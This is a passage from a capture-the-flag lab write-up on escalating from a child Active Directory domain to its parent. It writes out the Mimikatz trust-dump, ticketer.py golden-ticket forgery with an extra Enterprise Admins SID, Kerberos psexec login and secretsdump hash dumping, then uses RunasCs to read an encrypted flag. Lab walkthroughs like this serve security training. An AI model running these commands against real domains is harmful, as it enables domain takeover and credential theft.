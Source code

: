 I have already got KRBTGT hash from the previous hash dump. I got both SIDs with Mimikatz.

`.\mimikatz.exe "lsadump::trust /patch" "exit"`

* KBRTGT → c7a03c565c68c6<...SNIP...>

* Lab.Trusted.VL → S-1-5-21-2241985869-2159962460-1278545866

* Trusted.VL → S-1-5-21-3576695518-347000760-3731839591

![](https://photos.squarezero.dev/file/abir-images/Trusted/22.png)


Now I used Impacket to request TGT for Administrator of TrustedDC as LabDC.

`ticketer.py -nthash c7a03c565<..snip..> -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 -domain lab.trusted.vl Administrator`

![](https://photos.squarezero.dev/file/abir-images/Trusted/23.3.png)

Now using this ticket I can login to TrustedDC but I can't read the flag because of permission.

`KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass lab.trusted.vl/administrator@trusteddc.trusted.vl -target-ip 10.10.232.245`

![](https://photos.squarezero.dev/file/abir-images/Trusted/24.png)

I used Secretsdump to dump all the hashes for TrustedDC and used Evil-winrm to login But still, I can't see the flag.

![](https://photos.squarezero.dev/file/abir-images/Trusted/25.png)

### Encrypted Flag

I checked for encrypted files in the system and It shows root.txt is encrypted.

![](https://photos.squarezero.dev/file/abir-images/Trusted/26.png)


I used RUNasCs to bypass the encryption and read the flag.

![](https://photos.squarezero.dev/file/abir-images/Trusted/27.png)
